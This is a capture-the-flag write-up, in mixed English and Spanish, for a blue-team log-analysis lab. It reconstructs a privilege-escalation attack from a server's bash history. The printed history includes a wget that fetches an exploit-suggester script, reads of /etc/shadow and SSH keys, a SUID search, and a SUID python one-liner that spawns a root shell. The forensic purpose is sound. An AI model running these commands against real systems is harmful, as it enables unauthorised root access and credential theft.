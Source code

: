 # Write-Up — Log Analysis: Privilege Escalation

**Platform:** BTLO  
**Lab:** Log Analysis / Privilege Escalation  
**Category:** CTF Like  
**Date:** 2025-10-01  
**Difficulty:** Easy<br>
**Link:** https://blueteamlabs.online/home/challenge/log-analysis-privilege-escalation-65ffe8df12

---

## Scenario

A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?

---

## Bash History Analysis

Descargamos el archivo que nos proporcionan con el historial de comandos ejecutados en el servidor.

A través de ellos podemos reconstruir las acciones del atacante:

```bash
cat BTLO\ Log\ Analysis\ -\ Privilege\ Escalation/bash_history
```
```bash
nano index.php
touch test.php
rm test.php
cd ../
ls
ls -la
rmdir bck/
rm -rf bck/
cd html/
cd uploads/
ls -la
pwd
id
whoami
ls
cd /root
cd /
ls -la
cd /home
ls
cd /home/daniel/
ls -la
su root
find / -name perl*
find / -name python*
python
python -c 'import pty; pty.spawn("/bin/sh")'
find / -name gcc*
find / -name cc
echo os.system('/bin/bash')
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
ps -ef | grep root
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
ls -aRl /etc/| awk '$1 ~ /^.*r.*/'
crontab -l
ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
cat /etc/resolv.conf
iptables -L
lsof -i
tcpdump
last
cat /etc/sudoers
sudo -l
ls -ahlR /root/
ls -ahlR /home/
cat ~/.bashrc
cat ~/.profile
cat ~/.ssh/authorized_keys
ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null
/bin/bash -i
cat /etc/fstab
cat /etc/passwd
cat /etc/shadow
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
rm /var/www/html/uploads/x.phtml
```

---

## Challenge Questions — Answers & Justification

### 1) What user (other than `root`) is present on the server?

El atacante accede al directorio /home/daniel/ . Esto nos revela la existencia de otro usuario en el sistema.

**Respuesta:** daniel

---

### 2) Which script did the attacker attempt to download?

Observamos el uso de wget para descargar un script.

**Respuesta:** linux-exploit-suggester.sh


---

### 3) Which packet analyzer did the attacker attempt to use?

En el historial aparece `tcpdump`, que es una herramienta para capturar paquetes de red.

**Respuesta:** tcpdump


---

### 4) Which file extension did the attacker use to bypass the upload filter?

El atacante elimina un archivo con extensión .phtml, lo que indica que fue usado para evadir el filtro de subida de archivos PHP.

**Respuesta:** .phtml


---

### 5) What misconfiguration in `python` was exploited to gain root?

```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Este comando intenta ejecutar una shell con como root usando el argumento -p, lo cual solo es posible si el binario de Python tiene el bit SUID activado. 
Esta información la he encontrado aquí: https://gtfobins.github.io/gtfobins/gdb/#suid

**Respuesta:** SUID
